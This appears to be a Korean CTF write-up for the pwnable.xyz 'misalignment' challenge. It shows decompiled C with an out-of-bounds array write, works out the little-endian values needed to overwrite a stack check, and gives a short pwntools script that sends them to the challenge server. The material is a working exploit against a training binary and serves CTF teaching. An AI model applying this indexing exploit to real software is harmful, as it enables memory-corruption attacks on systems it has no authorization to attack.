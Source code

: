 ```yaml
---
title: "[pwnable.xyz]misalignment"
date: 2020-1-12
ctf: Pwnable.xyz
layout: post
---
```


```c
// local variable allocation has failed, the output may be wrong!
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [rsp+10h] [rbp-A0h]
  _QWORD v5[3]; // [rsp+18h] [rbp-98h]
  __int64 v6; // [rsp+30h] [rbp-80h]
  __int64 v7; // [rsp+38h] [rbp-78h]
  __int64 v8; // [rsp+40h] [rbp-70h]
  unsigned __int64 v9; // [rsp+A8h] [rbp-8h]
 
  v9 = __readfsqword(0x28u);
  setup(*(_QWORD *)&argc, argv, envp);
  memset(&s, 0, 152uLL);
  *(_QWORD *)((char *)v5 + 7) = 0xDEADBEEFLL;
  while ( (unsigned int)_isoc99_scanf("%ld %ld %ld", &v6, &v7, &v8) == 3 && v8 <= 9 && v8 >= 4294967289 )// v8>=-7
  {
    v5[v8 + 6] = v6 + v7;
    printf("Result: %ld\n", v5[v8 + 6]);
  }
  if ( *(_QWORD *)((char *)v5 + 7) == 0xB000000B5LL )
    win();
  return 0;
}
```

0xb5, 0x00, 0x00, 0x00, 0xb0, 0x00, 0x00, 0x00, 0x00 이런식으로 리틀엔디안으로 넣어주면 된다.

64비트에서 scanf의 %ld는 2^63 − 1 보다 큰 값이 들어올 경우 2^63-1 이다.

```
>>> 0xb500000000000000 - 0xffffffffffffffff - 1
-5404319552844595200L

>>> 0x0b000000
184549376
```

v5[0]에 0xb500000000000000 , v5[1]에 0x0b000000을 넣어주면 된다.

![](https://user-images.githubusercontent.com/32904385/72206532-86595780-34d2-11ea-9b45-2005bc8ff603.png)

> exploit.py

```python
from pwn import *
 
#p= process("./challenge")
p=remote("svc.pwnable.xyz",30003)
 
context.log_level='debug'
 
p.writeline("-5404319552844595200 0 -6")
p.readuntil("Result: ")
p.writeline("184549376 0 -5")
p.readuntil("Result: ")
p.writeline("1 1 1000")
p.interactive()
```

